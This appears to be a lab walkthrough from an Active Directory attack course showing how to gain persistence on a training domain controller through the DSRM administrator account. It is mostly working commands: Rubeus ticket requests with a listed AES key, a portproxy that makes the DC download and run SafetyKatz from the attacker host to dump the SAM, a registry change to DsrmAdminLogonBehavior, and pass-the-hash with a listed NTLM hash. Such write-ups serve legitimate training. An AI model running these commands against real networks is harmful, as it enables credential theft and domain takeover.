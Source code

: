 ```yaml
---
description: Learning Object 11
icon: vial
---
```


# 11 - LO1️1️

## Tasks



1 - Use Domain Admin privileges obtained earlier to abuse the DSRM credential for persistence

Flag 20 \[dcorp-dc] - Name of the Registry key modified to change Logon behavior of DSRM administrator 🚩

## Solutions

### 1 - Use Domain Admin privileges obtained earlier to abuse the DSRM credential for persistence

To obtain a persistance with administrative access to the DC we need to have Domain Admin privileges by abusing the DSRM administrator:

```powershell
 C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

As usual, into the new shell spawned we need to run the following commands for copying Loader.exe to the DC and extract credentials from the SAM hive:

```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
winrs -r:dcorp-dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.67
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "token::elevate" "lsadump::evasive-sam" "exit"
```

<figure><img src="../../.gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

The DSRM administrator is not allowed to logon to the DC from network, so we need to change the logon behavior for the account by modifying registry on the DC. We can do this as follows:

```powershell
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f
```

Now on the student VM, we can use Pass-The-Hash (not OverPass-The-Hash) for the DSRM administrator:

```powershell
 C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe "sekurlsa::evasive-pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:cmd.exe" "exit"
```

From the new procees, we can now access dcorp-dc. In this case we are using PowerShell Remoting with IP address and Authentication: 'NegotiateWithImplicitCredential' as we are using NTLM authentication. So, it's necessary to modify TrustedHosts for the student VM running the below command from an elevated PowerShell session:

```powershell
Set-Item WSMan:\localhost\Client\TrustedHosts 172.16.2.1
```

Now, run the commands below to access the DC:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```powershell
Enter-PSSession -ComputerName 172.16.2.1 -Authentication NegotiateWithImplicitCredential
```

```powershell
$env:username
```

<figure><img src="../../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>

### Flag 20 \[dcorp-dc] - Name of the Registry key modified to change Logon behavior of DSRM administrator 🚩

```powershell
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f
```

Based on the last command, the registry key modified to change Logon behavior of DSRM administrator is: XXXXXXXXXXXBehavior.
